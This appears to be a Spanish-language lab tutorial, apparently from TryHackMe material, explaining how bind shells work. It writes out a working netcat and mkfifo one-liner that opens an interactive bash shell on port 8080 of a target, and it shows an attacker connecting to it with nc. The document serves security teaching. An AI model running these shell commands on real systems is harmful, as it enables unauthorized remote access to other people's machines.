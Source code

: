 Como indica su nombre, una bind shell se relaciona a un puerto en el sistema comprometido y escucha una conexión. Cuando ocurre, expone una sesión shell al atacante. 

Este método puede ser usado cuando el sistema comprometido no permite las conexiones salientes, pero es menos popular ya que necesita permanecer activo y escuchar conexiones, lo que puede llevar a su detección.

----------------------
<h2>¿Cómo funcionan las bind shells?</h2>

----------------------------

<h4>Configurar la Bind Shell en el Objetivo</h4>
Creemos una bind shell. El atacante puede usar un comando como el de abajo en la máquina objetivo:

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

-  `rm -f /tmp/f`: Elimina cualquier archivo pipe existente en `/tmp/f`. Esto es para crear una nueva pipe ahí sin conflictos.
- `mkfifo /tmp/f`: Crea una pipe o FIFO (First In First Out) en `/tmp/f`.
- `cat /tmp/f`: Lee la información de la pipe (espera input).
- `| bash -i 2>&1`: El output de cat se pipea a la instancia de shell (`bash -i`), que permite al atacante ejecutar comandos de manera interactiva. El `2>&1` redirecciona los errores al output (stderr a stdout), asegurándose de que cualquier error se manda de vuelta al atacante.
- `| nc -l 0.0.0.0 8080`: Comienza la conexión en modo escucha (`-l`) en todas las interfaces (`0.0.0.0`) y el puerto `8080`.
- `>/tmp/f`: Esta parte manda el output de los comandos de vuelta hacia el pipe, permitiendo comunicación bidireccional.

Este comando escuchará conexiones entrantes y expondrá una shell bash. Los puertos por debajo del 1024 necesitan ser ejecutados con privilegios elevados.

------------------------
<h4>Terminal en la Máquina Objetivo (Bind Shell Setup)</h4>
```shell
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```

Una vez ejecutado el comando, esperará por una conexión, como se muestra arriba.

-----------------------------
<h4>El Atacante se Conecta a la Bind Shell</h4>
Ahora que la máquina víctima está esperando conexiones, usamos Netcat de nuevo con el siguiente comando para conectarnos:

`nc -nv <IP_OBJETIVO> <PUERTO_OBJETIVO>`

- - `nc`: Llama a la herramienta Netcat.
- `-n`: Deshabilita la resolución DNS.
- `-v`: Activa verbose para obtener más información.
- `IP_OBJETIVO`: La dirección IP del objetivo donde la bind shell está corriendo.
- `PUERTO_OBJETIVO`: El puerto en el que el sistema objetivo escucha.

```shell
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

